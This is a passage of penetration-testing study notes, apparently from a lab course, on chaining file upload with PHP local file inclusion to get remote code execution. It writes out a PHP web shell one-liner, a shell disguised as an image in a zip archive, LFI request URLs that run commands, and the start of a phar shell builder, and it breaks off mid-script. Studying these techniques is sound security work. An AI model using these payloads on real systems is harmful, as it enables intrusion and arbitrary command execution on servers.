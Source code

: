 ```
To include the uploaded file, we need to know the path to our uploaded file. In our case, if we inspect the source code


```<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">```


Note:  If we do not know where the file is uploaded, then we can fuzz for an uploads directory, and then fuzz for our uploaded file

include the uploaded file in the LFI vulnerable function

```http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id```


Note: To include to our uploaded file, we used ./profile_images/ as in this case the LFI vulnerability does not prefix any directories before our input. In case it did prefix a directory before our input, then we simply need to ../ out of that directory and then use our URL path, as we learned in previous sections.




#### Zip Upload

We can utilize the zip wrapper to execute PHP code. However, this wrapper isn't enabled by default, 
we create a PHP web shell script and zipping it into a zip archive 

``$ echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php``




```http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id```


Note: We added the uploads directory (./profile_images/) before the file name, as the vulnerable page (index.php) is in the main directory.




#### Phar Wrapper


write the following PHP script into a shell.php file:
```
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
